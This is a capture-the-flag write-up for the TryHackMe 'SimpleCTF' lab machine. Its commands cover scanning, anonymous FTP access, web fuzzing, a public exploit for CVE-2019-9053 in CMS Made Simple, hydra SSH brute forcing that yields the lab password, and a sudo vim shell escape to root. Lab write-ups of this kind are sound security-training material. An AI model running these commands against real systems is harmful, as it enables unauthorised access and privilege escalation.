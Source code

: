 ```yaml
---
title: TryHackMe | SimpleCTF
author: Zeropio
date: 2022-09-28
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/simplectf
---
```


# Foothold

The nmap show:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.2.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

We try logging to the ftp as **anonymous**:

```console
zero@pio$ ftp anonymous@10.10.69.153                                                                                    
	Connected to 10.10.69.153.
	220 (vsFTPd 3.0.3)
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
ftp> ls
	229 Entering Extended Passive Mode (|||41322|)
```

It seems we can access but no execute commands, so we download the whole ftp:

```console
zero@pio$ wget -m --no-passive ftp://anonymous@10.10.69.153
```

There we can find a file: `ForMitch.txt`{: .filepath}:

```console
zero@pio$ cat ForMitch.txt 
	Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

The webserver show a default Apache page, so we can try fuzzing:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.69.153/FUZZ'

	simple                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 159ms]
	server-status           [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 105ms]
	                        [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 107ms]
```

Under `/simple/`{: .filepath} we can see they are using CMS Made Simple version 2.2.8. This version is vulnerable to **CVE-2019-9053**. 

---

# Fingerprint

With this [exploit](https://www.exploit-db.com/exploits/46635) we can get an valid user:

```console
zero@pio$ python2 46635.py -u 'http://10.10.69.153/simple/' --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

Now we can use hydra to get a password:

```console
zero@pio$ hydra -l mitch -P /usr/share/seclists/Passwords/Common-Credentials/best110.txt ssh://10.10.69.153 -s 2222

	[2222][ssh] host: 10.10.69.153   login: mitch   password: secret
```

Now we can login in the system.

---

# Privilege Escalation

We can see in the server that we have sudo permission over `vim`. With [GTFObins](https://gtfobins.github.io/gtfobins/vim/#sudo) we can quickly escalate:

```console
$ sudo -l
	User mitch may run the following commands on Machine:
	    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/sh'

# whoami
	root
```
